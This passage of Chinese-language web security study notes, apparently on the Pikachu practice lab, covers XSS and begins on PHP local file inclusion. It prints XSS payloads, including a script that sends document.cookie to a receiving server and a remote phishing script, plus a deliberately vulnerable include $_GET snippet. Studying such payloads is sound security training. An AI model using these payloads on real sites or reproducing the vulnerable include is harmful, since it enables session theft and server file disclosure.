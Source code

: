 ```js
'"><script>alert(123)</script>
```

### DOM型

不与后台服务器产生数据交互,通过前端的dom节点形成的XSS漏洞，也是属于低危漏洞了。

Pyload：

```js
'" onclick="alert(123)"
```

### 实例

#### 反射型获取cookie

PS：记得提前搭建接收服务器

```
'"><script>document.location ='http://192.168.229.129/pikachu/pkxss/xcookie/cookie.php?cookie=' + document.cookie;</script>
```

#### Xss钓鱼

```
'"><script src="http://192.168.229.129/pikachu/pkxss/xfish/fish.php"></script>
```

## 文件包含

### 本地文件包含

#### 概述

​		仅能够对服务器本地的文件进行包含，由于服务器上的文件并不是攻击者所能够控制的，因此该情况下，攻击着更多的会包含一些 固定的系统配置文件，从而读取系统敏感信息。很多时候本地文件包含漏洞会结合一些特殊的文件上传漏洞，从而形成更大的威力。

以PHP为例,常用的文件包含函数有以下四种

```
include(),require(),include_once(),require_once()

require():找不到被包含的文件会产生致命错误，并停止脚本运行
include():找不到被包含的文件只会产生警告，脚本继续执行
require_once()与require()类似:唯一的区别是如果该文件的代码已经被包含，则不会再次包含
include_once()与include()类似:唯一的区别是如果该文件的代码已经被包含，则不会再次包含
```

```php
<?php
	include $_GET['test'];
?>
```
#### 条件
